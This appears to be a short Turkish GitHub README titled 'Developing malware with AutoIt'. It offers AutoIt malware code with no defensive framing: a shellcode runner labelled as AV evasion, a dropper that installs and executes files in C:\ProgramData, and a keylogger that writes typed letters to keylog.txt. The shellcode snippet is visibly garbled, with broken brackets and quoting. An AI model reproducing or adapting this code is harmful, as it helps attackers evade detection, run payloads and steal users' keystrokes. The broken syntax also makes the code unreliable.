 # autoit
Autoit aracı kullanarak zararlı yazılım geliştirme

Atlatma 
-----------------------------------
RunShellCode("binary kod")
Func RunShellCode($SHELLCODE)
$shellcode_buffer = dllstructcreate("BYTE"["Binarylen["0x" & $SHELLCODE) & "]")
$PUT_SHELLCODE_TO_BUFFER = DllStructSetData($SHELLCODE_BUFFER,1,"0x"&$ SHELLCODE)
$SHELLCODE_EXECUTE = DllCall("user32.dll","Iresult",CallWindowProc", "ptr", DllStructGetPtr($SHELLCODE_BUFFER)
EndFunc


Zararlı Yazalım Atlatma
-------------------------------
FileInstall("1.txt","C:\ProgramData\1.txt")
FileInstall("2.exe","C:\ProgramData\2.exe")

ShellExecute("C:\ProgramData\1.txt")
ShellExecute("C:\ProgramData\2.exe")


Keylogger Tuşları txt dosyasına kaydetmeye yarıyor.
-------------------------------------
HotKeySet("a","BasilanTusFonksiyonu")
HotKeySet("b","BasilanTusFonksiyonu")
HotKeySet("c","BasilanTusFonksiyonu")
HotKeySet("d","BasilanTusFonksiyonu")
HotKeySet("e","BasilanTusFonksiyonu")
HotKeySet("f","BasilanTusFonksiyonu")
HotKeySet("g","BasilanTusFonksiyonu")
HotKeySet("h","BasilanTusFonksiyonu")
HotKeySet("ı","BasilanTusFonksiyonu")
HotKeySet("i","BasilanTusFonksiyonu")
HotKeySet("j","BasilanTusFonksiyonu")
HotKeySet("k","BasilanTusFonksiyonu")
HotKeySet("l","BasilanTusFonksiyonu")
HotKeySet("w","BasilanTusFonksiyonu")
HotKeySet("x","BasilanTusFonksiyonu")
HotKeySet("i","BasilanTusFonksiyonu")
HotKeySet("m","BasilanTusFonksiyonu")
HotKeySet("n","BasilanTusFonksiyonu")
HotKeySet("o","BasilanTusFonksiyonu")
HotKeySet("ö","BasilanTusFonksiyonu")
HotKeySet("p","BasilanTusFonksiyonu")
HotKeySet("r","BasilanTusFonksiyonu")
HotKeySet("s","BasilanTusFonksiyonu")
HotKeySet("ş","BasilanTusFonksiyonu")
HotKeySet("t","BasilanTusFonksiyonu")
HotKeySet("u","BasilanTusFonksiyonu")
HotKeySet("ü","BasilanTusFonksiyonu")
HotKeySet("v","BasilanTusFonksiyonu")
HotKeySet("y","BasilanTusFonksiyonu")
HotKeySet("z","BasilanTusFonksiyonu")

Func BasilanTusFonksiyonu()
   FileWrite("keylog.txt",@HotKeyPressed)
   ControlSend("","","",@HotKeyPressed)
EndFunc
While 1
   Sleep(100)
WEnd
